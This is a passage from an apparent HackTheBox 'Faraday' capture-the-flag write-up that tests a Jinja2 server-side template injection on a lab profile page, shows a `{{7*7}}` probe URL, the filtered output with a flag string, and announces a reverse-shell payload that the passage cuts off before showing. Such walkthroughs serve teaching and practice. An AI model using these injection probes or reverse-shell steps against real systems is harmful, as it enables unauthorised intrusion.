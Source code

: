 The idea is simple, we can test a basic payload for `SSTI`what `{{7*7}}`this is by pointing it in the URL `/profile`with the parameter `name`like this

    http://10.13.37.14/profile?name={{7*7}}  
    

  

When opening it in the browser it redirects us to send the `message`, we send any

[

![](./XploitOverload_HackTheBox_Faraday_files/7.png)



](./XploitOverload_HackTheBox_Faraday_files/7.png)

When receiving the alert we find that we have a problem, it `{{` is deleted so the response is not represented `output`as we expected.
```html
    ---------- MESSAGE FOLLOWS ----------
    b'Subject: test'
    b'X-Peer: 10.13.37.14'
    b''
    b'An event was reported at 7*7}}:'
    b'test'
    b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'  
    ------------ END MESSAGE ------------
```    

  
Reading an [article](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) about the vulnerability we found some alternatives to apply the execution of `commands` at the end we have the following `payload` which will be in charge of executing a command that will send us a `reverse shell` with bash
